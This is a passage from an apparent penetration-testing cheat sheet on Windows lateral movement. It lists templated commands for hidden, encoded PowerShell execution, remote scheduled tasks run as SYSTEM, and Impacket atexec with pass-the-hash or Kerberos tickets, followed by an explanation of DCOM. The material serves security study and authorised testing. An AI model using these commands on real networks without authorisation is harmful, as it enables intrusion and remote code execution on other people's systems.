 ```
# <TASK_COMMAND> example with the Windows built-in cmd.exe or PowerShell:
cmd.exe /c '<COMMAND> <COMMAND_ARGS>' | %ComSpec% /c '<COMMAND> <COMMAND_ARGS>'
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -C '<COMMAND> <COMMAND_ARGS>'
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc <ENCODED_BASE64_CMD>
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoP -NonI -W Hidden -Enc <ENCODED_BASE64_CMD>

# Create a scheduled task to run PowerShell code for example
schtasks /create /tn "<TASK_NAME>" /tr "<TASK_COMMAND>" /sc once /sd <MM/DD/YYYY> /st <HH:MM:SS> /V1 /Z /RU "NT AUTHORITY\SYSTEM" /S <IP | HOSTNAME>

# The creation and status of the scheduled task can be validated
schtasks /query /tn "<TASK_NAME>" /S <IP | HOSTNAME>
schtasks /run /tn "<TASK_NAME>" /S <IP | HOSTNAME>
schtasks /delete /tn "<TASK_NAME>" /S <IP | HOSTNAME>

# By default, atexec execute "cmd /C <COMMAND>"
# NTLM authentication
atexec.py [-target-ip <TARGET_IP>] [<DOMAIN>/]<USERNAME>[:<PASSWORD>]@<HOSTNAME | IP> <TASK_COMMAND>
atexec.py -hashes <LM_HASH:NT_HASH> [-target-ip <TARGET_IP>] [[<DOMAIN>/]<USERNAME>@<HOSTNAME | IP> <TASK_COMMAND>

# Kerberos authentication
export KRB5CCNAME=<TICKET_CCACHE_FILE_PATH>
atexec.py -k -no-pass -dc-ip <DC_IP> <HOSTNAME> "<COMMAND | TASK_COMMAND>"
```

###### Distributed Component Object Model (DCOM)

`Component Object Model (COM)` is a Microsoft standard for inter-process
communication. `COM` specifies an object model and programming requirements
that enable `COM objects` (also called `COM components`) to interact with one
another. A `COM object` defines one, or more, sets of functions (`methods`),
called `interfaces`, that are the only way to manipulate the data associated
with the object. A `COM server` object provides services to `COM clients`
through its implemented `methods`, called by the clients after retrieving a
pointer to the `COM server` object interface.   

The proprietary Microsoft `Distributed Component Object Model (DCOM)`
technology allows for networked communication of `COM objects` over the
`Microsoft Remote Procedure Call (MSRPC)` protocol, with a first connection
initiated on the remote system port TCP 135.  

The `COM` / `DCOM` object register a few notable identifiers:
  - The `Class Identifier (CLSID)`, a `GUID` acting as a unique identifier for
  every `COM class` registered in Windows. The `CLSID key` in the registry
  points to the implementation of the class.
  - The optional `Programmatic Identifier (ProgID)`, that can supplement a
  `COM class` `CLSID` with a more human-readable name. Not every `COM class`
  is associated with a `ProgID`.
  - The `Application Identifier (AppID)`, which groups the configuration for
  one, or more, `DCOM objects` hosted by the same executable into one
  centralized location in the registry (`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\
  AppID\{<APPID>}`).
